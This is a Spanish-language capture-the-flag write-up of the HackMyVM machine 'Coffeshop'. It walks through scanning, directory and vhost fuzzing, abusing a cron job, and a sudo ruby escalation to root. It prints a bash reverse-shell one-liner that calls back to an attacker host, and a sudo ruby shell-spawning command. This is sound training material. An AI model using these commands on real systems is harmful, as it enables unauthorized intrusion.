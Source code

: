 ```yaml
---
layout: post
title: HackMyWM - Coffeshop
author: c4rta
date: 2024-01-15
tags: [HackMyWM]
image: /assets/img/coffeshop/waifu.png
---
```


## Enumeracion

Iniciamos con un escaneo de nmap donde encontraremos el puerto 22 y 80

```ruby
nmap -sS -n -Pn -T4 --open -p- 192.168.1.81
```

 - sS: haga un TCP SYN Scan el cual hace que el destino responda con un RST si el puerto esta cerrado, o con un SYN/ACK si esta abierto, y ademas para que vaya mas rapido

 - n: para que no haga resolucion DNS y tarde menos el escaneo

 - Pn: para evitar el descubrimiento de hosts

 - open: para que solo muestre los puertos abiertos

 - -p-: para que escanee todo el rango de puertos

 ```ruby
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

### Directory Fuzzing

Haciendo uso de gobuster para enumerar directorios mediante fuerza bruta, nos encontramos con **shop**

```ruby
gobuster dir -u http://192.168.1.84/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 100
```

```ruby
/shop                 (Status: 301) [Size: 311] [--> http://192.168.1.84/shop/]
```

### Explorando el sitio web

En el sitio web principal nos encontramos el nombre de un dominio **midnight.coffee**, es posible que se este aplicando virtual hosting y lo tengamos que agregar al **/etc/host** para que resuelva

```bash
echo "<IP>     midnight.coffee" | tee -a /etc/hosts
```

Si regresamos el sitio web y entramos el recurso **/shop**, nos mostrara un encabezado con varias opciones, donde tendremos un login

![](/assets/img/coffeshop/2.png)

En este punto intente probar con SQLi, NoSQLi, Type Juggling pero nada de eso me funciono, asi que recurri a enumerar subdominios, recordemos que agregamos un dominio al /etc/hosts, por lo cual debemos de hacer el fuzzing con ese dominio, usaremos wfuzz en modo vhost y descubriremos **dev**

```ruby
wfuzz -u 'http://midnight.coffee' -H 'Host: FUZZ.midnight.coffee' -t 100 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt --hh 1690
```

```ruby
200        71 L     152 W      1738 Ch     "dev"
```

Tambien hay que agregarlo el /etc/hosts

```bash
echo "<IP>     dev.midnight.coffee" | tee -a /etc/hosts
```

Al entrar al sitio, podremos ver las credenciales del login

![](/assets/img/coffeshop/3.png)

![](/assets/img/coffeshop/4.png)

## Movimiento lateral: tuna -> shopadmin

### user.txt (via no intencionada)

Durante la enumeracion, pude encontrar que en el directorio /opt existe un archivo de ruby que ocuparemos mas adelante

```ruby
-rw-r--r--  1 root root   27 Jan  3 14:00 shop.rb
```
Tambien intente enumerar binarios SUID, permisos a nivel de sudoers y nada, explore un poco mas y encontre en el directorio home de **shopadmin** tiene permisos de ejecucion, por lo que podemos entrar en el pero no listar contenido

![](/assets/img/coffeshop/5.png)

Asi que se me ocurrio leer el archivo **user.txt** y si tengo suerte y existe tener la flag, y si funciono

![](/assets/img/coffeshop/6.png)

### user.txt (via intencionada)

Si mostramos el archivo **.viminfo** podemos ver que se crearon y/o editaron varias cosas, como el crontab y el archivo **/tmp/uwu.sh** 

![](/assets/img/coffeshop/7.png)

Si mostramos las tareas cron, tenemos una que se ejecuta como el usuario **shopadmin**

```ruby
* * * * * /bin/bash /home/shopadmin/execute.sh
```

Al ver su contenido, podemos ver que esta ejecutando cualquier archivo **.sh** del directorio **/tmp**, por lo cual podemos crear uno que nos envie una reverse shell, en mi caso usare el tipico one liner de bash

```bash
#!/usr/bin/env bash
bash -i >& /dev/tcp/<IP>/443 0>&1
```

Despues de 1 minuto, nos llegara una shell y ya tendremos la flag se user por la via intencionada

![](/assets/img/coffeshop/8.png)

## Escalada de privilegios

Si mostramos los permisos de nivel de sudoers, podemos ver que podemos ejecutar cualquier cosa con ruby y el archivo **shop.rb**

```ruby
User shopadmin may run the following commands on coffee-shop:
    (root) NOPASSWD: /usr/bin/ruby * /opt/shop.rb
```

Al buscar en **GFTOBins** obtenemos que podemos hacernos root ejecutando **ruby -e 'exec "/bin/sh"'**, si lo probamos asi no funcionada, por lo que debemos de indicarle el archivo **/opt/shop.rb**

```ruby
sudo ruby -e 'exec "/bin/bash"'  /opt/shop.rb
```

Y ya seremos root

![](/assets/img/coffeshop/9.png)

Eso ha sido todo, gracias por leer ❤